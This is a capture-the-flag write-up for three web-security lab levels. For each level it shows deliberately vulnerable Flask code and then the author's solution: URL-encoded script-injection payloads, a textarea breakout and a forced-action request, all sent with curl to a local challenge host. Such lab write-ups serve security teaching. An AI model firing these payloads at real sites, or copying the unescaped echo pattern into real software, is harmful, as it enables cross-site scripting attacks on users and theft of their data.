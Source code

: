 # Cross-Site Scripting (XSS) Vulnerabilities

## Level 8 - Exploit a cross site scripting vulnerability

Code for the level:

```python
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```



For this, the `/visit` path will run a browser in Selenium and redirect to the `url` parameter. If it gets an alert, it will display the flag.

To display an alert, we can use the `/echo` endpoint. I want it to display an alert, so I want to inject the `echo` arg as `<script>alert('XSS')</script>`. URL encoded, that is, `%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`.

This gives a URL of `http://challenge.localhost/echo?echo=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`. Pasting this into the browser alerts, so we are on the right track.

I use this to build the `/visit` url and paste `http://challenge.localhost/visit?url=%20http%3A%2F%2Fchallenge.localhost%2Fecho%3Fecho%3D%253Cscript%253Ealert%2528%2527XSS%2527%2529%253C%252Fscript%253E` into the brower URL.

This worked, but I'd over-escaped the url. It can be simplified as `http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E` which is more readable.

While I used the browser because it was easier to test the alert, it also works with curl,

```sh
curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E"
```

## Level 9 - Exploit a cross site scripting vulnerability with more complicated context

Code for this level,

```python
def level9():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(f"<textarea>{echo}</textarea>")

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```

The difference here is that the value that is echo'd is contained within a `<textarea>`, so the script won't be run. Unless of course we complete the `</textarea>`. I will send `</textarea><script>alert('XSS')</script><textarea>` to the echo, which encoded is, `%3C%2Ftextarea%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E%3Ctextarea%3E`.

```sh
curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3C%2Ftextarea%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E%3Ctextarea%3E"
```

## Level 10 - Exploit a cross site scripting vulnerability to cause a user action

Code for this level,

```python
def level10():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```

First I want to call the `/visit` route which will trigger a login and then redirect to `/leak`

```sh
curl http://challenge.localhost/visit?url=http://challenge.localhost/leak?user=1
```

Then I call `/info` with the user id to get the flag,

```sh
curl http://challenge.localhost/info?user=1
```
